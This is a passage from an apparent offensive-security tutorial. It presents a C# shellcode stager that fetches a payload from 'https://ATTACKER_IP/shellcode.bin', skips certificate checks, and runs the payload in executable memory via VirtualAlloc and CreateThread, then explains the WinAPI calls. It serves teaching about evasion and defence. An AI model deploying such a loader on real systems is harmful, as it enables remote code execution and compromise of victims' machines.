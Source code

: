 ```bash
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  //https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    string url = "https://ATTACKER_IP/shellcode.bin";
    Stager(url);
  }

  public static void Stager(string url)
  {

    WebClient wc = new WebClient();
    ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
    ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

    byte[] shellcode = wc.DownloadData(url);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

The code may look intimidating at first but is relatively straightforward. Let's analyze what it does step by step.

The first part of the code will import some Windows API functions via P/Invoke. The functions we need are the following three from **`kernel32.dll`**:

| WinAPI Function | Description |
| --- | --- |
| https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc | Allows us to reserve some memory to be used by our shellcode. |
| https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread | Creates a thread as part of the current process. |
| https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject | Used for thread synchronization. It allows us to wait for a thread to finish before continuing. |
